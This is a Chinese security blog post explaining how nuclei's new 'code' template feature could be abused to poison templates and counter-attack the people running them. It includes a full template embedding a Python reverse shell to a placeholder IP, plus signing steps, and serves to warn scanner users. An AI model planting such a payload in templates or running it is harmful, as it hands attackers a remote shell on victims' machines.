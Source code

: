 ```yaml
---
title: 新功能？浅谈 nuclei 的反制思路
url: https://mp.weixin.qq.com/s?__biz=Mzg5NDU0NzI3Ng==&mid=2247483926&idx=1&sn=59bb2f6f193ecabeb154088f8c8ff291&chksm=c01ca635f76b2f23d4de394b90a277bf15dda8118ef192ae2ef5cee90fe5566e107991e74dc8&mpshare=1&scene=1&srcid=03121IyCQWyxPMdXW1Xqy8qK&sharer_shareinfo=1209525673135fbf653febf19a0e8c71&sharer_shareinfo_first=1209525673135fbf653febf19a0e8c71#rd
clipped_at: 2024-03-31 16:11:05
category: temp
tags: 
 - mp.weixin.qq.com
---
```



# 新功能？浅谈 nuclei 的反制思路

## code 新功能？

写 poc 时，习惯性查官方文档，注意到了一个新的功能：code  
![图片](assets/1711872665-ab3b885b2dd14e6fbdb2535f0c41a754.webp)  
链接直达：

https://docs.projectdiscovery.io/templates/protocols/code  
大概翻译下：

> Nuclei 支持在主机操作系统上执行外部代码。该功能允许安全研究人员、五项测试人员和开发人员扩展 Nuclei 的功能，并执行超出常规支持的基于协议的测试范围的复杂操作。

> 利用这一功能，Nuclei 可以与底层操作系统交互，并执行自定义脚本或命令，从而开辟了广泛的可能性。它使用户能够执行系统级配置、文件操作、网络交互等任务。这种控制水平和灵活性使用户能够根据自己的具体要求定制安全测试工作流程。

> 编写代码模板时，使用代码块来表示模板请求的开始。该代码块标志着代码相关指令的开始。

> 要执行代码，需要指定系统环境中已安装或可用的语言解释器列表。这些解释器可以是（但不限于）bash sh py python3、go、ps 等，并按顺序搜索，直到找到合适的解释器为止。这些解释器的标识符应与各自的名称或系统环境识别的标识符相对应。

第二反应，支持 bash sh py python3、go、ps 等，这不一键反弹 shell？

众所周知，每年在开源社区投毒漏洞利用工具，脚本等事件频发，常见的手段有代码中藏恶意代码，恶意第三方库，idea 特性投毒等等，这不都可以和 nuclei 这一功能结合起来么？

## 简单尝试

对着官方仓库：

https://github.com/projectdiscovery/nuclei/tree/main/integration\_tests/protocols/code

编写一个 poc（没加签名了，要尝试的自签名）

```plain
id: sh-test

info:
  name: sh-test
  author: sp4rkw
  severity: info

code:
  - engine:
      - py
      - python3
    source: |
      import socket,subprocess,os
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(("xxx.xxx.xxx.xxx",2333))
      os.dup2(s.fileno(),0)
      os.dup2(s.fileno(),1)
      os.dup2(s.fileno(),2)
      p=subprocess.call(["/bin/sh","-i"])
      print("11111")
    
    matchers:
      - type: word
        words:
          - "hello from input baz"
```

看下效果：

-   机器 1  
    ![图片](assets/1711872665-d47770215396a43932a84c1669c21028.webp)
    
-   机器 2  
    ![图片](assets/1711872665-71f99cd9e55ce24a4027612c4457003f.webp)
    

## 具体分析

首先，毋庸置疑，这个反制思路时可行的。玩法很多，只能说，脚本小子的快乐又没了，用非官方库的 nuclei 脚本都需要注意一下。至于官方库是否可以投毒，期待有师傅尝试一下？非常可刑

再来说两个注意点，第一个是，脚本需要签名，携带 code 模块的 yaml 文件，没有签名运行不起来。虽然没什么用，因为每个人都可以生成签名，但是可以阻止伪造官方仓库 poc 进行投毒。

> 通过使用私钥 - 公钥机制，模板签名为模板生态系统增加了一层安全和信任。它有助于确定模板作者的身份，确保各种系统中使用的模板是真实的，没有被恶意篡改。

直达链接：https://docs.projectdiscovery.io/templates/reference/template-signing

批量签名也非常容易

```plain
root@iZmj768nr8:~# nuclei -u scanme.sh -t ./test.yaml -sign
[INF] Generating new key-pair for signing templates
[*] Enter User/Organization Name (exit to abort) : xxx
[*] Enter passphrase (exit to abort): 
[*] Enter same passphrase again: 
[INF] Successfully generated new key-pair for signing templates
root@iZmj768nr80f:~# nuclei -u scanme.sh -t ./test.yaml -sign
[INF] All templates signatures were elaborated success=1 failed=0
```

第二个点，官方在前几天的更新中，添加了`-code`命令![图片](assets/1711872665-94eb1397215689200b81ba52ca523c4c.webp)

默认禁止有 code 模块的脚本运行，需要加-code 参数

官方也只能做到这里了，毋庸置疑，未来使用 code 模块编写 poc 肯定会越来越普遍，-code 还是会成为一个默认选项。

至于 code 模块的代码安全检测？留给未来吧